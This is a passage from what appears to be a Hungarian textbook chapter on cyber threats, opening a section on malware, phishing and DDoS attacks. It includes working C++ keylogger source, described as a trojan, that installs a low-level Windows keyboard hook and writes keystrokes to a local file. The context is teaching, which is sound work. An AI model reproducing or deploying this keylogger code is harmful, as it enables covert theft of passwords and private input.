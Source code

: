 A modern számítógépes hálózatok fejlődésével a kiberbiztonsági fenyegetések is egyre kifinomultabbá és gyakoribbá váltak. Bár a technológia számos előnyt nyújt a mindennapi életünkben, a veszélyek ugyanakkor jelentős kockázatokat is hordoznak. Ebben a fejezetben a leggyakoribb kiberbiztonsági fenyegetéseket, mint a malware, a phishing és a DDoS támadások részleteit tárgyaljuk, feltárva, hogyan működnek, és milyen károkat okozhatnak a hálózatokban és rendszerekben. Ezen túlmenően megismerkedünk a kockázatkezelés és incidenskezelés alapvető elveivel és módszereivel, amelyek elengedhetetlenek egy hatékony védekezési stratégia kialakításában. Célunk, hogy átfogó képet nyújtsunk az aktuális kiberbiztonsági kihívásokról, valamint azokról a védelmi mechanizmusokról, amelyek segítenek megőrizni rendszereink integritását és biztonságát.

### 6.1 Malware, Phishing, DDoS támadások

A számítógépes hálózatok világában a kiberbiztonsági fenyegetések folyamatosan fejlődnek, mind technikai, mind taktikai szempontból. A következőkben részletesen ismertetjük a három kiemelkedő fenyegetést: a malware-t, a phishing-et és a DDoS támadásokat, kitérve azok működési mechanizmusaira, az alkalmazott technikákra és a lehetséges védekezési stratégiákra.

#### Malware

A malware (malicious software) egy kártékony szoftverkategória, amely célja a számítógépes rendszerek vagy hálózatok károsítása, jogosulatlan hozzáférés biztosítása vagy adatlopás. A malware típusai közé tartoznak a vírusok, trójai programok, férgek, zsarolóprogramok (ransomware) és keyloggerek. A következő példa egy egyszerű trójai program C++-ban, amely egy ártalmatlan alkalmazásnak álcázza magát, de közben rögzíti a billentyűleütéseket.

```cpp
#include <windows.h>
#include <fstream>

HHOOK hHook = NULL;
std::ofstream outfile;

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT *kb = (KBDLLHOOKSTRUCT *)lParam;
        outfile << (char)(kb->vkCode);
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}

DWORD WINAPI KeyloggerThread(LPVOID lpParameter) {
    HINSTANCE hInstance = GetModuleHandle(NULL);
    hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, hInstance, 0);
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    UnhookWindowsHookEx(hHook);
    return 0;
}

int main() {
    outfile.open("keylog.txt", std::ios::app);
    HANDLE hThread = CreateThread(NULL, 0, KeyloggerThread, NULL, 0, NULL);
    MessageBox(NULL, "Your computer is hacked.", "Trojan Warning", MB_OK);
    WaitForSingleObject(hThread, INFINITE);
    outfile.close();
    return 0;
}
```
